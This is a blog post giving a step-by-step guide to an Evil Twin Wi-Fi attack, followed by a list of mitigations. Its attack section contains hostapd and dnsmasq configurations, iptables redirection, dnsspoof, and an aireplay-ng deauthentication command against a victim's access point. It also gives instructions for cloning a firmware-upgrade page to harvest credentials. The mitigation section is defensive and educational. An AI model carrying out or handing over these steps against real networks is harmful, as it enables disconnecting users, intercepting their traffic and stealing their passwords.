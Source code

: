 ```yaml
---
layout: post
title: Evil Twin Attack
date: 2025-02-09 13:40 +0000
categories: [Exploits]
tags: [Exploits, Evil Twin Attack]
permalink: /posts/Evil-Twin-Attack/
image:  
  path: /assets/img/thumbnails/Evil-Twin.png
---
```




# **Evil Twin Attack: Exploiting Wi-Fi Clients Without Additional Hardware**

## **Introduction**

The **Evil Twin Attack** is a sophisticated method of exploiting Wi-Fi clients by creating a rogue access point (AP) that mimics a legitimate one. The goal is to force clients to disconnect from the legitimate network and reconnect to the malicious AP, which has the same SSID. Once connected, the attacker can intercept traffic, redirect users to a fake firmware upgrade page, and harvest credentials or other sensitive information.

This attack can be executed using a Debian-based OS like **Kali Linux** without the need for additional hardware (though an external NIC may improve performance). Below is a step-by-step guide to setting up the attack, followed by mitigation strategies to defend against such exploits.

---

## **Attack Overview**
1. **Objective**: 
   - Knock Wi-Fi clients off their legitimate network.
   - Force them to reconnect to a rogue AP with the same SSID.
   - Redirect traffic to a fake firmware upgrade portal to harvest credentials.

2. **Tools**:
   - `hostapd`: For creating the rogue AP.
   - `dnsmasq`: For DHCP and DNS spoofing.
   - `apache2/nginx`: For hosting the fake portal.
   - `iptables`: For traffic redirection.
   - `aireplay-ng`: For deauthentication attacks.

3. **Prerequisites**:
   - A wireless interface in monitor mode.
   - Basic knowledge of networking, social engineering, and web development.

---

## **Step-by-Step Execution**

### **1. Install Required Tools**
```bash
sudo apt install hostapd dnsmasq apache2
```

### **2. Set Wireless Interface to Monitor Mode**
```bash
iwconfig [iface] mode monitor
```

### **3. Create Working Directory**
```bash
mkdir evil-twin && cd evil-twin
```

### **4. Configure `hostapd`**
Create `hostapd.conf`:
```bash
vim hostapd.conf
```
Configuration:
```ini
interface = [iface]
driver = nl80211
ssid = [ESSID of target]
hw_mode = g
channel = [channel of target]
macaddr_acl = 0
ignore_broadcast_ssid = 0
```

### **5. Configure `dnsmasq`**
Create `dnsmasq.conf`:
```bash
vim dnsmasq.conf
```
Configuration:
```ini
interface = [iface]
dhcp-range = 192.168.1.2, 192.168.1.30, 255.255.255.0, 12h
dhcp-option=3, 192.168.1.1
dhcp-option=6, 192.168.1.1
server = 8.8.8.8
log-queries
log-dhcp
listen-address=127.0.0.1
```

### **6. Configure Network Interface**
```bash
ifconfig [iface] up 192.168.1.1 netmask 255.255.255.0
```

### **7. Add Routing Rules**
```bash
route add -net 192.168.1.0 netmask 255.255.255.0 gw 192.168.1.1
```

### **8. Set Up IP Tables for Traffic Redirection**
```bash
iptables --table nat --append PREROUTING -i [iface] -p tcp -j REDIRECT --to-ports <ports running your portal>
```

### **9. Set Up the Fake Portal**
- Use tools like `httrack` to clone a legitimate firmware upgrade page.
- Modify the HTML/CSS to make it convincing.
- Set up a backend (e.g., Flask, Node.js) to handle user input.
- Save credentials to a database or file.

### **10. Start Services**
```bash
hostapd hostapd.conf
dnsmasq -C dnsmasq.conf -d
dnsspoof -i [iface]
```

### **11. Launch Deauthentication Attack**
```bash
aireplay-ng --deauth 0 -a [victim's BSSID] [iface]
```

---

## **Mitigation Strategies**

### **1. Use Strong Encryption**
- Ensure your Wi-Fi network uses **WPA3** encryption. If WPA3 is unavailable, use **WPA2** with a strong passphrase.

### **2. Monitor for Rogue APs**
- Deploy wireless intrusion detection systems (WIDS) to detect and alert on rogue APs.

### **3. Implement Certificate-Based Authentication**
- Use **802.1X/EAP** to authenticate devices connecting to your network. This prevents unauthorized devices from joining, even if they have the correct SSID and password.

### **4. Educate Users**
- Train users to recognize suspicious activity, such as unexpected firmware upgrade prompts or certificate warnings.

### **5. Disable Auto-Reconnect**
- Configure devices to **not auto-reconnect** to known networks without user confirmation.

### **6. Regularly Update Firmware**
- Ensure all network devices are running the latest firmware to patch known vulnerabilities.

### **7. Segment Your Network**
- Use VLANs to isolate sensitive devices and services from the rest of the network.

### **8. Monitor Network Traffic**
- Use tools like **Wireshark** or **Zeek** to analyze network traffic for anomalies.

### **9. Enable HTTPS Everywhere**
- Ensure all web-based services use HTTPS to prevent traffic interception.

### **10. Deploy Honeypots**
- Set up honeypot APs to detect and analyze malicious activity.


